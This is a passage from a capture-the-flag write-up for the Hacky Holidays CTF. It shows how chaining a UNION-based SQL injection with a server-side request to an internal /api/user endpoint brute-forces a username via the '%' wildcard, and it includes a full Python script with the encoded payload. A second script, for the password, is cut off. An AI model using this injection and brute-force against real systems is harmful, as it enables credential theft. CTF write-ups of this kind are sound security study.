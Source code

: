 5 - Credentials wildcard bruteforce
I found out that the /user endpoint was accessible using that method. Then I tried to find some GET parameters to pass to the URL in order to retrieve credentials using the /user API. I noticed that the "username" GET parameter allowed to perform queries, and furthermore it was possible to perform a bruteforce on the username by using the "%" wildcard character and a comparison of the response to check the right character. The following script performs this scenario to retrieve the username.

```
#!/usr/bin/python3

import requests, time
import re
from bs4 import BeautifulSoup

if __name__ == "__main__": 
    letters = "abcdefghijklmnopqrstuvwxyz1234567890_-$"
    username = ""
    found = False
    for l in range(1,40):
        found = False
        for o in letters:
            session = requests.session()
            burp0_url = "https://hackyholidays.h1ctf.com:443/r3c0n_server_4fdk59/album?hash=b%27%20UNION%20ALL%20SELECT%20%221%27%20UNION%20ALL%20SELECT%20%27c%27,%27b%27,%27../api/user?username={}%25%27--%20-%22,%22%22,%22NO!%22--%20-".format(username+o)
            burp0_headers = {"Connection": "close", "Content-Type":"application/json","Cache-Control": "max-age=0", "sec-ch-ua": "\"Google Chrome\";v=\"87\", \" Not;A Brand\";v=\"99\", \"Chromium\";v=\"87\"", "sec-ch-ua-mobile": "?0", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 11_0_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36", "Accept": "*/*", "Sec-Fetch-Site": "none", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9,it-IT;q=0.8,it;q=0.7,zh-CN;q=0.6,zh;q=0.5"}
            r = session.get(burp0_url, headers=burp0_headers)
            soup = BeautifulSoup(r.text)
            l = soup.find_all("img", {"class": "img-responsive"})
            p = l[2]["src"]
            burp0_url = "https://hackyholidays.h1ctf.com{}".format(p)
            r = session.get(burp0_url, headers=burp0_headers)
            if "Expected" not in r.text:
                username = username + o
                print("Username till now {}".format(username))
                found = True
                break
        if found is False:
            break
```

After having retrieved the username, I used the same process to retrieve the password using the GET password parameter. Following the script to retrieve the password.

```
#!/usr/bin/python3

import requests, time
import re
from bs4 import BeautifulSoup

if __name__ == "__main__": 
    letters = "abcdefghijklmnopqrstuvwxyz1234567890_-$"
    password = ""
    found = False
    for l in range(1,40):
        found = False
        for o in letters:
            session = requests.session()
```